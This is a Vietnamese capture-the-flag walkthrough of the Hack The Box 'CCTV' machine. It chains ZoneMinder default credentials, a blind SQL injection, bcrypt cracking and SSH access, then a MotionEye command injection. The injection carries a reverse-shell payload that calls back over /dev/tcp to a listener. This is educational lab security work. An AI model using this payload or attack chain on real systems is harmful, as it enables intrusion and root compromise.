# Khai thác máy ảo CCTV Hackthebox
## Người thực hiện :Trần Minh Đức
### Bước 1: Reconnaissance
Sử dụng công cụ `nmap` với cú pháp tôi sử dụng là `sudo nmap -sC -sV <IP_mục_tiêu>`.Để lấy các dịch vụ, port, phiên bản và các thông tin bổ sung.

Ở đây tôi có thấy thông tin về dịch vụ ssh/port:22 sử dụng phiên bản 9.6p1 và sử dụng dịch vụ web/port:80 với webserver Apache httpd 2.4.58
#### 1 số phát hiện ở đây:
Tôi đã tìm ra 1 bản `CVE-2024-6387`.Nó sử dụng cơ chế sau khi handshake thành công nó sẽ gửi gần như toàn bộ dữ liệu payload lớn (chứa các cấu trúc bộ nhớ giả và shellcode) qua mạng Máy chủ OpenSSH sẽ nhận và lưu dữ liệu này vào bộ đệm, nhưng chưa xử lý vì nó vẫn đang giữ lại 1 byte cuối cùng.Và ở máy attacker sẽ chờ đến khi  thời gian chờ loggin `LoginGraceTime` còn chỉ vài milli s sẽ kích hoạt gửi byte cuối .Cùng lúc máy chủ sẽ gặp 2 việc là vừa phát tín hiệu `SIGALRM` để ngắt kết nối và lại nhận byte cuối để bắt đầu xử lí  payload dc gửi tới thì kết nối ngắt làm máy chủ bị xung đột và thay vì đóng kết nối thì máy chủ lại thực thi file.CVE này đã lợi dụng một lỗi trong OS là 2 threads chạy không cùng lúc nhưng lại chanh chấp chung tài nguyên vùng nhớ heap. 

Nhưng bằng 1 lí do nào đó có thể do độ trễ mạng hay người thiết kế   thêm bản vá riêng cho máy này nên k thành công 

Sau đó tôi đã thử dán ip lên web để vào giao diện web máy nạn nhân nhưng không vào được có thể do có nhiều web đang sử dụng chung 1 máy chủ vật lí nên ở đây tôi đã 
`sudo bash -c 'echo "10.129.5.104 cctv.htb" > /etc/hosts` 
để ghi đè vào file /etc/hosts

Ở đây là trang chủ của web  CCTV sử dụng phần mềm `ZoneMinder` để quản lí và giám sát camera.Ở đây, tôi đã thử rất nhiều cách để xác định phiên bản của phần mềm zoneminder này .Nhưng hình như trang web đã ẩn thông số và chi tiết của phần mềm này 
### Bước 2: Exploitation
Tôi đã nghiên cứu qua về API của phần mềm này : 
https://zoneminder.readthedocs.io/en/stable/api.html
https://zoneminder.readthedocs.io/en/latest/userguide/gettingstarted.html
và trong ZoneMinder Documentation - Mục Getting Started
có dòng là
`For initial login authentication the default username is admin and default password is admin. Establish Login Password. `
Nên tôi sẽ thử vận may với câu lệnh này dc hướng dẫn trong trang về API trên 

 `curl -XPOST -c cookies.txt -d "user=adminpass=admin&stateful=1"  https://cctv.htb/zm/api/host/login.json`
 Với lệnh `curl` tham số `-X POST` sẽ gửi phương thức HTTP POST với tham số -d để gửi data về user và password tới địa chỉ API ENDPOINT xử lí quyền đăng nhập của ng dùng
 
 Và đây là kết quả .Sau khi nhận được kết quả này rồi ,Tôi đã thử đăng nhập từ cookie của API với credentials trả về  
 Có vẻ như phần mềm ZoneMinder này đã chặn việc này 
 Tôi có tìm được CVE-2024-51482 - ZoneMinder Blind SQL Injection nó phù hợp với phiên bản ZoneMinder1.37.63.
 
Ta sẽ làm rõ lỗ hổng này một chút CVE-2024-51482 ảnh hưởng đến các phiên bản ZONEMINDER từ 1.37.0-1.37.64. . Lỗ hổng này cho phép attacker sau khi đã đăng nhập thành công vào trang web có thể lợi dụng lỗ hổng của hàm `removeTag` trong tệp `web/ajax/event.php`. Hàm này có tác dụng giúp xóa các tag tương ứng với sự kiện của nó.
Ở đây nó đã bị attacker lợi dụng khi nhận tham số `tagid` nối cùng chuỗi SQL thay vì kiểm tra tagid đó có p số nguyên an toàn không hệ thống lại trực tiếp thực thi câu lệnh SQL đó. Nhờ điều này att sẽ gửi truy vấn để dò tìm thông tin cụ thể ở đây là sử dụng các query để dò từng kí tự trong danh sách `user`.
 
Sau khi kết quả trả về ta thấy 3 kết quả. Ở đây, tôi thấy 3 kết quả và tôi bắt đầu suy luận một chút là vì thứ chúng ta muốn là chiếm và kiểm soát máy chủ để lấy thông tin nên tài khoản admin và superadmin của ứng dụng web zoneMinder khả năng rất cao là sẽ không có tác dụng gì trong việc chúng ta ssh vào máy chủ linux . Nên ta sẽ chỉ chú ý tới tài khoản người dùng mark. Và đặc biệt phần lớn ng dùng nếu là tài khoản quản trị hệ thống và quản trị web sẽ để chung một password. Khi băm được trả về chúng ta có thể thấy đây là một chuỗi gồm 60 ký tự và bắt đầu $2y ta có thể kết luận nó là 1 chuỗi bcrypt để có thể cracking nhanh hơn.
Chúng ta sẽ sử dụng công cụ john the ripper để dictitionary attack 
>`john --format=bcrypt --wordlist=/usr/share/wordlists/rockyou.txt mark.txt`

với format sử dụng bcrypt và chúng ta sẽ sử dụng từ điển rockyou để tìm kiếm và chuỗi băm của ng dùng mark tôi đã lưu vào trong file mark.txt

kết qủa trả về password là `opensesame`.Sau đó tôi đã ssh vào tài khoản này.

tôi đã check qua tất cả các thư mục và file của ng dùng này và kết quả không thu được gì và tôi cũng sử dụng lệnh sudo -l để xem quyền ng dùng nhưng cũng không có gì để chú ý . Và tôi có thấy cái thư mục `sa_mark` nhưng không thể truy cập vào dù có dùng full quyền với sudo. Tôi đoán có lẽ file user.txt của chúng ta đang tìm trong đó và có lẽ p sử dụng quyền root mới có thể xem được .
Chúng ta sẽ xem các cổng mà máy chủ này đang mở chờ listen dịch vụ web
`ss -tlnp`
-t là tcp
-l là listen 
-n là numeric
-p là process 
và dùng `ps aux`  để liệt kê các tiến trình đang chạy trong hệ thống 
a là all
u là User-oriented
x là exclude terminal control

Nhưng ở đây kết quả lệnh ps aux trả về k dc gì có lẽ máy chủ đã chặn việc này 
Chúng ta sẽ dùng lệnh `curl -I <đường dẫn local + port>` với tham số -I này để lấy phần HTTP header để tìm thông tin về các port dịch vụ mạng trên của máy chủ 

Và ở đây đa số các dịch vụ đa số là có webHTTP và database ngoài ra có một dịch vụ đặc biệt là dịch vụ nền tảng web để giám sát video và camera hoạt động.Nên tôi đã SSH lại và chọn cổng dịch vụ đó để khám phá thêm thông tin về nó.
`ssh -L 8765:127.0.0.1:8765 mark@cctv.htb`
Chúng ta sẽ sử dụng câu lệnh `systemctl status motioneye` để check qua thông tin thông số của dịch vụ này


Sau đó chúng ta sử dụng lệnh cat để xem cấu hình trong file `config` của nó và cấu hình khởi tạo dịch vụ trong file `service` .Ở đây chúng ta thấy các điểm quan trọng như sau:
`User=root` Dòng này quy định khi hệ thống khởi động dịch vụ motioneye, tiến trình xử lý của nó bắt buộc phải được chạy dưới danh nghĩa của siêu người dùng `root`.Do đó, bất kỳ lỗ hổng thực thi mã nào xảy ra bên trong ứng dụng Web này cũng sẽ nghiễm nhiên kế thừa toàn bộ quyền hạn cao nhất của hệ thống. Và ở trong file conf đã có luôn cho chúng ta username và password để đăng nhập.
Nhưng giao diện đăng nhập của trang motion eye này còn đang mắc một lỗi rất nghiêm trọng là nó cho phép sử dụng đoạn mã băm để login luôn nên đoạn này tôi đã skip qua bước tấn công tìm kiếm từ điển 

Sau đó chúng ta sẽ lợi dụng một lỗ hổng của motioneye bản < 0.43.1b5 `CVE-2025-60787`.Lỗ hổng tấn công chèn lệnh trong MotionEye cho phép kẻ tấn công thực hiện thực thi mã từ xa (RCE) bằng cách cung cấp các giá trị độc hại trong các trường cấu hình được hiển thị thông qua giao diện người dùng web. Vì MotionEye ghi trực tiếp các giá trị do người dùng cung cấp vào các tệp cấu hình Motion mà không qua xử lý, kẻ tấn công có thể chèn cú pháp shell được thực thi khi tiến trình Motion khởi động lại. Vấn đề này cho phép chiếm quyền kiểm soát hoàn toàn vùng chứa MotionEye và có khả năng cả môi trường máy chủ (tùy thuộc vào quyền hạn của vùng chứa). Mà ở đây chúng ta có `User=root` . 
Đầu tiên chúng ta cần Bypass Validation



Sau đó chúng ta sẽ vào phần StillImage chuyển Capturemode sang interval snapshot và chuyển interval sang 10s. Sau đó ở phần name chúng ta sẽ điền đoạn payload này vào
`$(python3 -c "import os;os.system('bash -c \"bash -i >& /dev/tcp/10.129.244.156/4444 0>&1\"')").%Y-%m-%d-%H-%M-%S`
Vì trong đoạn mã
`def set_camera_config(self, config):
snapshot_filename = config.get('snapshot_filename')
motion_config['snapshot_filename'] = snapshot_filename
cmd = "mkdir -p /var/lib/motioneye/%s" % snapshot_filename
os.system(cmd)`
Nên khi payload này được điền vào phần name, sau mỗi lần snapshot nó sẽ được kích hoạt chạy đoạn lệnh phía sau &( 
sau đó là chạy gọi thực thi lệnh trên hệ điều hành mở phiên bashshell với bash -c sau đó là bash -i để khởi tạo một phiên làm việc có đầy đủ giao diện dòng lệnh tương tác trực tiếp, sau đó mới ném toàn bộ cái giao diện tương tác đó qua đường truyền /dev/tcp/ về cho máy Kali .>& là 2>&1 gộp các lỗi và ném ra cùng kết quả tới đường dẫn và 0>&1 lấy tất cả nguồn nhập vào từ máy kali sang máy linux .
Nhờ vậy mỗi lần snapshot motioneye sẽ thực thi lệnh 1 lần mỗi 10s trả lại reverse shell tới máy attacker nhưng netcat chỉ nhận kết nối lần đầu nên để 10s thế để nếu có lỡ ngắt kết nối vẫn có thể vào lại được ngay không cần thực hiện lại. 


Sau đó chúng ta `nc -lvnp 4444` để lắng nghe reverse shell và lấy cờ tại `root.txt` và `user.txt`

